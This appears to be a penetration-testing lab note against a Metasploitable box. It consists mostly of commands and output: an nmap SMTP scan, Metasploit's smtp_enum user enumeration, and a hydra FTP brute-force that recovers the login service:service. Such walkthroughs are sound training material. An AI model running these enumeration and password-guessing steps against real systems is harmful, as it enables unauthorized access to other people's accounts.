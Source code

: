 ```bash
nmap -sV -sC -p 25 10.0.24.140
```

```bash
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2024-08-05T13:33:54+00:00; -1s from scanner time.
Service Info: Host:  metasploitable.localdomain

Host script results:
|_clock-skew: -1s
```

```bash
msfconsole -q
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS 10.0.24.140
set UNIXONLY true
run
```

```bash
# Valid user and service accounts
[+] 10.0.24.140:25        - 10.0.24.140:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

* Try to brute force `service` with ftp.

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.0.24.140 ftp
```

```bash
[21][ftp] host: 10.0.24.140   login: service   password: service
```

<figure><img src="../../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>
